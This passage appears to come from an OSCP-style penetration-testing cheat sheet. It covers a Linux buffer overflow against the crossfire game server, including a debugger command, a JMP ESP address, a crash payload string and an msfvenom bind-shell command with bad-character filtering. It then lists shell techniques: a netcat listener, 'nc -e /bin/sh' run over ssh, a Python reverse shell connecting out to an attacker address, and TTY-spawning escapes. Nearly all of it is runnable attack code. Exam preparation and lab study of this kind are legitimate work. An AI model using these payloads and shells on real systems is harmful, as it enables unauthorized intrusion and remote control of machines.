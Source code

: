 *   Linux Buffer Overflows

    *   Run Evans Debugger against an app  
        edb --run /usr/games/crossfire/bin/crossfire

    *   ESP register points toward the end of our CBuffer  
        add eax,12  
        jmp eax  
        83C00C add eax,byte +0xc  
        FFE0 jmp eax

    *   Check for “Bad Characters” Process of elimination - Run multiple times 0x00 - 0xFF

    *   Find JMP ESP address  
        "\x97\x45\x13\x08" # Found at Address 08134597

    *   crash = "\x41" * 4368 + "\x97\x45\x13\x08" + "\x83\xc0\x0c\xff\xe0\x90\x90"

    *   msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai

    *   Connect to the shell with netcat:  
        nc -v $ip 4444

# [](https://x89k.tk/infosec/2018/11/03/oscpsurvivalguide.html#shells)Shells

*   Netcat Shell Listener

    `nc -nlvp 4444`

*   Spawning a TTY Shell - Break out of Jail or limited shell You should almost always upgrade your shell after taking control of an apache or www user.

        (For example when you encounter an error message when trying to run an exploit sh: no job control in this shell )

        (hint: sudo -l to see what you can run)

    *   You may encounter limited shells that use rbash and only allow you to execute a single command per session. You can overcome this by executing an SSH shell to your localhost:

              ssh user@$ip nc $localip 4444 -e /bin/sh
              enter user's password
              python -c 'import pty; pty.spawn("/bin/sh")'
              export TERM=linux

    `python -c 'import pty; pty.spawn("/bin/sh")'`

               python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);          s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

    `echo os.system('/bin/bash')`

    `/bin/sh -i`

    `perl —e 'exec "/bin/sh";'`
